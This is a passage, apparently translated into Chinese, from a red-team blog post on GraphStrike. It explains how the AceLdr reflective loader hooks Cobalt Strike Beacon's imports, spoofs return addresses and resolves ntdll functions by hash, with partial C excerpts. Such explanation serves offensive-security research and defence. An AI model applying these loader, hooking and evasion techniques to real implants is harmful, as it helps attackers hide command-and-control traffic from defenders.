 ```plain
                                C_PTR( lpszPassword ), 
                                C_PTR( U_PTR ( dwService ) ), 
                                C_PTR( U_PTR( dwFlags ) ), 
                                C_PTR( U_PTR( dwContext ) ) );
};
```

值得注意的是，上面定义的 InternetConnectA\_Hook 函数采用与真实 Windows API InternetConnectA 完全相同的参数。

AceLdr 执行导入地址表 (IAT) 挂钩，其中某些 API（如 InternetConnectA）内存地址在 Beacon 进程导入地址表 (IAT) 内被覆盖，并替换为相应自定义函数的地址。IAT 可以比作书籍中的目录或索引，其中不同的章节列在它们开始的页面旁边。通过 IAT 挂钩，我们可以有效地更改与章节 (API) 关联的页码（内存地址）。结果是，当调用挂钩的 API 之一时，IAT 返回 AceLdr 等效的用户定义函数的地址，而不是 Microsoft DLL 中的真实函数的地址，并执行该自定义函数。对于 AceLdr 挂钩的大多数 API，所有自定义函数所做的就是使用 SPOOF 宏调用真正的 API（手动解析而不是使用 IAT），以实现返回地址欺骗。

返回地址欺骗虽然很酷并且在逃避方面本身非常有价值，但与手头的任务并不真正相关。非常相关的是能够拦截 API 调用、运行一些用户定义的代码，然后将执行修补回进程调用的真实 API。这使我们能够在调用真正的 API 之前拦截和更改 Beacon 发送的参数，并打开大门：

1.  在 Beacon 的正常通信周期之外发出 Web 请求以获取新的访问令牌
2.  在内存中存储和轮换访问令牌
3.  修改 Beacon 为请求提供的标头以包含当前访问令牌
4.  将 Beacon 使用的动词更改为 PUT，以便它可以支持使用 Graph API 文件方法

重要的是，AceLdr 提供了一个工作框架，我可以从中进行定制，以满足 GraphStrike 确定的要求。

# 关于 AceLdr 和 UDRL 的一些注释

AceLdr 的发现使这一想法超越了已识别的阻碍因素，进入了可行性领域。我们已经确定了一种在 Beacon 执行之前（通过 UDRL）以及在整个 Beacon 生命周期（通过 UDRL 设置的挂钩函数）运行任意代码的方法，但在我们深入研究如何利用这些功能的细节之前对于 GraphStrike，我们应该仔细研究 AceLdr 的一些相关部分以及它们如何影响该项目。Cobalt Strike 团队发布了一篇很棒的博客，其中涵盖了 UDRL 背后的一些基本理论和设计，我强烈鼓励读者查看。

UDRL 开发带来的有趣的额外负担之一是代码必须编写为位置无关的；这限制了 Windows 和 C API 的正常使用以及全局变量和标准字符串的使用。AceLdr 使用一个巧妙的技巧和一些宏来启用正常的字符串使用，但我们仍然必须为我们想要在代码中使用的任何 API 手动创建函数指针。AceLdr 使用名为“resolveAceFunctions”的函数来完成此操作，如下所示：

```plain
SECTION( B ) NTSTATUS resolveAceFunctions( PAPI pApi )
{
    PPEB    Peb;
    HANDLE  hNtdll;

    Peb = NtCurrentTeb()->ProcessEnvironmentBlock;
    hNtdll = FindModule( H_LIB_NTDLL, Peb, NULL );

    if( !hNtdll )
    {
        return -1;
    };

    pApi->ntdll.NtGetContextThread  = FindFunction( hNtdll, H_API_NTGETCONTEXTTHREAD );
    pApi->ntdll.NtSetContextThread  = FindFunction( hNtdll, H_API_NTSETCONTEXTTHREAD );
    pApi->ntdll.NtResumeThread      = FindFunction( hNtdll, H_API_NTRESUMETHREAD );
    pApi->ntdll.RtlUserThreadStart  = FindFunction( hNtdll, H_API_RTLUSERTHREADSTART );
    pApi->ntdll.RtlCreateUserThread = FindFunction( hNtdll, H_API_RTLCREATEUSERTHREAD );

    if( !pApi->ntdll.NtGetContextThread ||
        !pApi->ntdll.NtSetContextThread ||
        !pApi->ntdll.NtResumeThread     ||
        !pApi->ntdll.RtlUserThreadStart ||
        !pApi->ntdll.RtlCreateUserThread )
    {
        return -1;
    };

    return STATUS_SUCCESS;
};
```
